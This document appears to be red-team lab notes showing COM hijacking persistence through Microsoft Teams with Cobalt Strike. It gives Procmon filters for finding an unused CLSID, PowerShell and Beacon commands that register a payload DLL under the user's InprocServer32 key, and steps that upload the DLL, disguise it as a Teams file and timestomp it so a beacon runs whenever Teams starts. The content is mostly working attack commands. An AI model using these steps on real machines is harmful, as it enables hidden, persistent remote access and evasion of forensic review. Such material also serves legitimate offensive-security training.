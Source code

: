 
### Test COM Hijacking
- Open Procmon64.exe_ as a local admin.
    
-  Select **Filter > Filter** (or use **Ctrl + L**).
    
-  Add the following filters:
    1.  Process Name is ms-teams.exe then Include.
    2.  Operation is RegOpenKey then Include.
    3.  Path ends with InprocServer32 then Include.
    4.  Result is NAME NOT FOUND then Include.
    5.  Click OK.
-  Run Microsoft Teams from the Windows Start Menu and observe the events in Process Monitor.

 >You want a CLSID that is only called a few times. We'll use 7D096C5F-AC08-4F1F-BEB7-5C22C517CE39 in this lab.
 
 -  Quit Teams from the taskbar.
    
-  Use PowerShell to add the following registry entries and test the hijack:

```powershell
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}"

New-Item -Path "HKCU:Software\Classes\CLSID\{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"

New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

- Launch Cobalt Strike and connect to the Team Server.
    
-  Run Microsoft Teams again and a Beacon should appear, running in ms-teams.exe.

### Persistence on Foothold Machine
From the Beacon running as pchilds:

1.  Change Beacon's working directory.

```powershell
cd C:\Users\pchilds\AppData\Local\Microsoft\TeamsMeetingAdd-in\1.25.14205\x64

ls
```

2.  Upload the DLL payload to disk.

```powershell
upload C:\Payloads\http_x64.dll
```

3.  Rename and timestomp the DLL to help it blend in.

```powershell
mv http_x64.dll Microsoft.Teams.HttpClient.dll

timestomp Microsoft.Teams.HttpClient.dll Microsoft.Teams.Diagnostics.dll
```

4.  Add the registry entries.

```powershell
reg_set HKCU "Software\Classes\CLSID\{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}\InprocServer32" "" REG_EXPAND_SZ "%LocalAppData%\Microsoft\TeamsMeetingAdd-in\1.25.14205\x64\Microsoft.Teams.HttpClient.dll"

reg_set HKCU "Software\Classes\CLSID\{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}\InprocServer32" "ThreadingModel" REG_SZ "Both"
```


Next time teams will run the beacon will be executed